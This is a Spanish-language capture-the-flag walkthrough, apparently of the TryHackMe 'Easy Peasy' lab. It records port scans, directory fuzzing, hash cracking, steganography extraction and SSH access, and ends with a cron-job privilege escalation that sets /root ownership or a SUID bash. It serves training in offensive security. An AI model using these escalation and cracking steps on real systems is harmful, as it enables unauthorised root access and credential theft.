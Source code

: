 
---

#### Reconocimiento y Enumeración 


- Maquina *Linux*

- Escaneo de Todos los puertos

```java
PORT     STATE SERVICE REASON
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 61
6498/tcp  open  unknown syn-ack ttl 61
65524/tcp open  unknown syn-ack ttl 6
```

- Escaneo de scripts de reconocimiento y versiones

```java
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Script de Vulnerabilidades

```java
nmap -p80,6498,65524 --script "vuln" 10.201.32.209
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-28 17:03 -05
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.201.32.209
Host is up (0.24s latency).

PORT      STATE SERVICE
80/tcp    open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|_  /hidden/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  BID:49303
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://www.securityfocus.com/bid/49303
|       https://www.tenable.com/plugins/nessus/55976
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|_      https://seclists.org/fulldisclosure/2011/Aug/175
6498/tcp  open  unknown
65524/tcp open  unknown

```


---
#### Fuzzing

- Hacemos fuzzing a los 2 puertos http encontrados los cuales son el *80* y el *65524*

```bash
gobuster dir -u http://10.201.32.209 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x txt,php,html,py,xml
gobuster dir -u http://10.201.32.209:65524 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x txt,php,html,py,xml
```

- Encontramos los siguientes archivos y la primera flag en el fuzzing del puerto *65524*

![[Pasted image 20251028170635.png]]

- Crackeamos el hash con hashes.com y nos muestra una flag
	![[Pasted image 20251028171121.png]]

- A su vez en el puerto 80 encontramos los siguiente directorios 

![[Pasted image 20251028172037.png]]

![[Pasted image 20251028172050.png]]

- En donde en el codigo fuente de whatever nos aparece otra flag la cual con base 64 la decodificamos 

![[Pasted image 20251028172127.png]]

![[Pasted image 20251028172135.png]]

- Vemos las inconsistencias de la pagina de apache de la siguiente forma:

![[Pasted image 20251028180057.png]]

- Encontramos un hash y la flag 3 

![[Pasted image 20251028180146.png]]

![[Pasted image 20251028180218.png]]

- Rompemos el hash de base pero no sabemos que base es entonces vamos a la pagina de cipher detector y encontramos que el hash esta cifrado en base 62 y nos aparece lo siguiente 

![[Pasted image 20251028180641.png]]


- Vamos a la ruta por el puerto *65524* y encontramos el siguiente hash que nos dicen que tenemos que decifrar con el diccionario que ellos nos proporcionaron 
![[Pasted image 20251028180825.png]]

- Podemos descifrar este hash usando un diccionario propio de la siguiente manera con [[john]]

```bash
john --wordlist=/home/xrl3y/TryHackMe/Easy-Peasy/content/easypeasy.txt --format=gost hash
```

- Nos da la siguiente contraseña : *mypasswordforthatjob*

- Ademas en el codigo fuente de la imagen hay una ruta hacia: http://10.201.32.209:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg en donde aplicaremos la extracción de información oculta de imagenes de la siguiente forma:

```bash
wget http://10.201.32.209:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide --extract -sf binarycodepixabay.jpg     # Comando de extraccion de informacion de imagenes

# Nos pedira una contraseña que es la que habiamos obtenido antes y ademas nos dara un fichero txt
```

![[Pasted image 20251028184836.png]]

- Desciframos la contraseña con binario y nos da que el usuario es *boring* y la contraseña es *iconvertedmypasswordtobinary* asi que entramos por ssh

- Una vez adentro tenemos la flag del usuario *synt{a0jvgf33zfa0ez4y}* peor dice que esta rotada asi que la arreglamos:

```bash
echo 'synt{a0jvgf33zfa0ez4y}' | tr 'A-Za-z' 'N-ZA-Mn-za-m'   # Tiene un ROT13 asi que con este comando lo aplicamos

# Flag : flag{n0wits33msn0rm4l}
```

---
#### Escalada de privilegios 

- Estando en el usuario buscamos por sudoers, suid, .ssh y al final lo unico que encontramos es un fichero editado en el etc/crontab

```bash
cat /etc/crontab           # Vemos que hay un archivo ejecutandose con permisos de root
cd var/www                 # Entramos al directorio del permiso
ls -la
nano .mysecretcronjob.sh   # Editamos el archivo bash para que cuando se ejecute nos cumpla el comando que queramos
			chown -R boring:boring /root # Hacemos que boring sea el dueño y del grupo de /root asi cuando se ejecute tendremos los permisos del folder y acceos completo a la flag
			
			# chmod 4755 /bin/bash # Tambien podemos colocar esto para que nuestra bash tenga permisos suid de root y una vez se hallan dado los permisos hacer un /usr/bin/bash -p y ya seriamos automaticamente root
			
bash .mysecretcronjob.sh   # Podemos ejecutarlo sin emargo la tarea cron ya lo deberia hacer automaticamnete 
			

```





